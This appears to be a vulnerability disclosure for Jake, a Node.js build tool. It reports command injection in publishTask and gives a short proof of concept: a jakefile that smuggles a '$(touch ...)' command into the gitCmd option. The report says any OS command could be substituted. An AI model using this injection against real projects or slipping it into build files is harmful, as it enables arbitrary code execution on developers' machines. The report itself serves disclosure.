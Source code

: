 ## description
Jake -- the JavaScript build tool for Node.js. 

Jake is the JavaScript build tool for NodeJS. Jake has been around since the very early days of Node, and is full featured and well tested.

It has capabilities similar to GNU Make, CMake, or Rake in the Ruby community.

Similar tools in the Node and JavaScript ecosystem are Grunt and Gulp.

The jake publishTask is vulnerable to command injection and can cause arbitrary code execution, possibly leading to malware propagation via the jake toolchain.

## PoC
Create jakefile.js with the contents below:

//jakefile.js

let { publishTask } = require('jake');

publishTask('abc', {gitCmd: '$(touch pzhou@shu);'}, () => {});

//end of jakefile.js

run 'jake publish fetchTags' in your terminal, then the file pzhou@shu can be illegally created.

Note that, we can replace 'touch pzhou@shu' with any other OS command to execute.
